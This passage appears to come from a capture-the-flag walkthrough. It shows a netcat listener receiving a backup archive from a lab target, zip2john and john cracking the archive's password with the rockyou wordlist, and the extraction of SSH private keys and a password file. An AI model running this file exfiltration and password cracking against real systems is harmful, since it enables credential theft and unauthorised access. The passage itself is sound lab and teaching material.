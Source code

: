 _Run this on your local machine_

```bash
➜  nc -lnvp 8888 > user_backup.zip
listening on [any] 8888 ...
connect to [192.168.56.106] from (UNKNOWN) [192.168.56.151] 36606
```

Awesome... trying to unzip the file requires a password. Using `zip2john`, we can dump the zip file's hash which we can try crack using `john`.

```bash
➜  ls -la
total 12
drwxr-xr-x 2 root root 4096 Jan 17 17:04 .
drwxr-xr-x 4 root root 4096 Jan 17 15:01 ..
-rw-r--r-- 1 root root 3285 Jan 17 17:04 user_backup.zip
➜  unzip user_backup.zip
Archive:  user_backup.zip
[user_backup.zip] id_rsa password:
   skipping: id_rsa                  incorrect password
   skipping: id_rsa.pub              incorrect password
   skipping: my_password.txt         incorrect password
   skipping: easysysinfo.c           incorrect password
➜  locate zip2john
/usr/sbin/zip2john
➜  /usr/sbin/zip2john user_backup.zip > forjohn
ver 2.0 efh 5455 efh 7875 user_backup.zip/id_rsa PKZIP Encr: 2b chk, TS_chk, cmplen=1979, decmplen=2590, crc=A144E09A
ver 2.0 efh 5455 efh 7875 user_backup.zip/id_rsa.pub PKZIP Encr: 2b chk, TS_chk, cmplen=470, decmplen=563, crc=41C30277
ver 1.0 efh 5455 efh 7875 user_backup.zip/my_password.txt PKZIP Encr: 2b chk, TS_chk, cmplen=35, decmplen=23, crc=21E9B663
ver 2.0 efh 5455 efh 7875 user_backup.zip/easysysinfo.c PKZIP Encr: 2b chk, TS_chk, cmplen=115, decmplen=148, crc=A256BBD9
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
➜  john --wordlist=/usr/share/wordlists/rockyou.txt forjohn
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!randybaby       (user_backup.zip)
1g 0:00:00:07 DONE (2022-01-17 17:05) 0.1261g/s 1807Kp/s 1807Kc/s 1807KC/s #1Emokid..!jonas
Use the "--show" option to display all of the cracked passwords reliably
Session completed
➜  unzip user_backup.zip
Archive:  user_backup.zip
[user_backup.zip] id_rsa password:
  inflating: id_rsa
  inflating: id_rsa.pub
 extracting: my_password.txt
  inflating: easysysinfo.c
```
